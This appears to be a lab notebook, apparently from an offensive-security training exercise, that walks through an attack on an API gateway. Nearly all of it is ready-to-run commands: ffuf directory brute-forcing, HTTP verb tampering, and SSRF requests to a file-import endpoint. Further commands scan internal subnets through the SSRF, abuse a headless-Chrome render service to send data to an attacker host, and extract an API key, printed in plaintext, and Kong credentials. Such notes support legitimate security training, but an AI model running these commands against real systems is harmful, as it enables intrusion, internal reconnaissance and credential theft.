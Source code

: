 directory scan:
```powershell
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -u http://apigateway:8000/FUZZ -t 200 -o endpoints.json
```
We could convert the json into a hashmap and work with the object:
```powershell
$hashtable = gc -raw ./endpoints.json | ConvertFrom-Json -AsHashtable 
$hashtable.results
```
but here is a more effective one liner:
```powershell
gc -raw ./endpoints.json | ConvertFrom-Json -AsHashtable | % -process { $_.results.GetEnumerator()} | % -process {Add-Content -Path parsed-urls.txt -Value $_.url}
```
Stripped Files
```powershell
foreach ($i in gc ./parsed-urls.txt) {Add-Content -Path endpoints-stripped.txt -value $i.split('/')[3]}
```
Http verb tampering
```powershell
Invoke-RouteBuster -ActionList ./actions-only-valid.txt -Wordlist ./wordlist-only-valid.txt -Target http://apigateway:8000 -Methods get,post
```

ssrf poc:
In particular this is a good example of how to send a json payload
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://192.168.119.144/"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://192.168.118.3/ssrftest"}' http://apigateway:8000/files/import
```

One interesting observeration is that python3 webserver provides less information than apache. To be specific when reading the apache servers logs we are able to see the user agent of the file import microservice: axios/0.21.1
```bash
sudo systemctl start apache2
sudo systemctl status apache
sudo tail /var/log/apache2/access.log -f
```

One thing also worth mentioning is that 'Access-Control-Allow-Credentials' is set on file/import and almost every other endpoing we bruteforced 
```bash
sudo tail /var/log/apache2/access.log -f
```

We can scan a list of gateways with:
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/22' -Ports 8000 -Gateway
```
We can detect all of the live hosts and scan ports within the '172.16.16.0/28' range (/28 gives us the first 15 ip addresses, /29 gives the first 6)
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/28' -Hosts -Open
```
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/29' -Ports 8000 -Hosts -Open
```


headless chrome test powershell:
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/test.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Exfiltration via Javascript. Note that the internal Javascript reaches out to 172.16.16.4:8001 so at this point there are two ssrf targets.
- 172.16.16.2:9000
- 172.16.16.4:8001
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/exfiltration.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Exfiltrate api key
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/api-key-extraction.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Authenticated request to /render service
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```

Without calling the File Import service, recreate the attack to steal credentials from Kong by calling the Render service directly with the API key.
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163/api-key-extraction.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Adjust your HTML payload so the credentials are included in the PDF the service returns:
This version is as a pdf
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://172.16.16.4:8001/key-auths"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck -Outfile apicredentials.pdf
```
This version is as html, learned about the output parameter from: https://github.com/alvarcarto/url-to-pdf-api
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://172.16.16.4:8001/key-auths"; "output"="html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```

Using flask as a callbackserver to server the javascript payloads and process their outputs.
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163:1080/exfiltration_extramile_chunked.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163:1080/api-key-extraction-callback-server.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
